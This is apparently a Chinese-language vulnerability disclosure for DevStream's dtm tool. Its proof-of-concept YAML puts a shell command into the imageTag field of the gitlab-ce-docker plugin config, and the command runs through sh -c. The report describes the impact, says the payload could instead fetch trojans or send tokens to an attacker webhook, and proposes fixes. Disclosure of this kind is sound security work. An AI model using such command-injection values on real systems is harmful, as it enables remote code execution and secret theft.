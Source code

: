 ## POC

```yaml
---
# core config
varFile: "" # If not empty, use the specified external variables config file
toolFile: "" # If not empty, use the specified external tools config file
pluginDir: "" # If empty, use the default value: ~/.devstream/plugins, or use -d flag to specify a directory
state: # state config, backend can be local, s3 or k8s
  backend: local
  options:
    stateFile: devstream.state
---
# tools config
tools:
  # name of the tool
  - name: gitlab-ce-docker
    # id of the tool instance
    instanceID: default
    # format: name.instanceID; If specified, dtm will make sure the dependency is applied first before handling this tool.
    dependsOn: [ ]
    # options for the plugin
    options:
      # hostname for running docker. (default: gitlab.example.com)
      hostname: gitlab.example.com
      # pointing to the directory where the configuration, logs, and data files will reside.
      # (default: /srv/gitlab)
      # 1. it should be a absolute path
      # 2. once the tool is installed, it can't be changed
      gitlabHome: /tmp
      # ssh port exposed in the host machine. (default: 22)
      sshPort: 22
      # http port exposed in the host machine. (default: 80)
      httpPort: 80
      # https port exposed in the host machine.
      # (default: 443)
      # todo: support https, reference: https://docs.gitlab.com/omnibus/settings/nginx.html#enable-https
      httpsPort: 443
      # whether to delete the gitlabHome directory when the tool is removed. (default: false)
      rmDataAfterDelete: false
      # gitlab-ce tag. (default: "rc")
      # imageTag: "rc"
      imageTag: "rc;open /System/Applications/Calculator.app #"

```

利用方法为 gitlab ce image 没用启动对应 Container 的时候，执行 `dtm apply -f this.yaml -y` 之后弹出计算器

imageTag 无过滤内容 可用退隔和 rewind 以及 # 注释符号搭配使用，对用户进行欺骗

## 危害

**首先配置文件本身并没有被项目做权限检查（例如 ssh 下 id_rsa 权限）存在可以被其他平级乃至是低权限用户修改的可能。因此提供了一种从文本写入到命令执行的攻击向量。**

其次，项目多处使用了 `docker` `kubectl` 。这类需要 root 或者 docker 组的权限的用户进行执行。**因此往往 dtm 是被高权限使用的。**

由于项目的目的是构造整体的生产环境工具链，也同样聚集了多数最佳实践的配置，同时又支持环境变量或者其他文件读取配置，**所以用户可能并不会对配置文件本身亲力亲为。**

也存在一种场景，假设**用户配置文件可以通过远程分发和维护**的时候，例如 nacos 统一配置全公司的技术栈和工具链，通过这种配置文件的污染，（能够进行污染的时候，部署的服务和CICD服务可能均已遭到不测），甚至可以导致员工的办公区电脑被入侵。

当然命令这里不只是 Open 计算器，由于ImageTag中没有多数的过滤，所以我们几乎可以做任何操作，包括但不限于下载木马文件进行执行，并且由于教程中含有通过环境变量的值的方法传入各种 Token 所以也存在使用 curl 或者其他方法向黑客的恶意 Webhook 服务器发送带有生产或是测试环境的相关的配置从而造成更大的危害。

## 可行的缓解与修复

可以使用 go client for docker engine 实现。

如果非要使用 exec.Command 可以将第一位二进制参数设置为 docker 替换  sh -c 便会大大降低被注入额外命令的风险

